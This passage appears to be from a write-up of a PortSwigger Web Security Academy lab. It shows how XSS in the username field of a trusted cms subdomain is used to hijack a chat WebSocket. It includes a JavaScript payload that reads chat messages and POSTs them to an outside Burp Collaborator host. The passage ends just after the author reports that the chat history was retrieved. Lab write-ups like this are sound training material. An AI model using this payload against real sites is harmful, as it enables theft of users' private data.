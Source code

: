 Visiting this leads to a login page:

![](../../.gitbook/assets/portswigger-csrf-writeup-image-25.png)

Random logins result in this:

![](../../.gitbook/assets/portswigger-csrf-writeup-image-26.png)

I tested XSS, and it worked in the `username` parameter.

![](../../.gitbook/assets/portswigger-csrf-writeup-image-27.png)

This domain is within the `Access-Control-Allow-Origin` headers, meaning that the contents of the main domain is accessible to this `cms` domain. Using the XSS within the login, I can visit and retrieve data from the main domain.

Using this fact, I can retrieve data and send it to the exploit server by making the `cms` domain execute code. This can be done by using one-liner JS script.

```js
<script>    var ws = new WebSocket('wss://0a6100740330309982f244c300c300fe.web-security-academy.net/chat');    ws.onopen = function() {        ws.send("READY");    };    ws.onmessage = function(event) {        fetch('fh0n43hizfz6ksuw7jueykb9e0kr8hw6.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});    };</script>
```

By sending the above, I was able to retrieve the contents of my chat history:
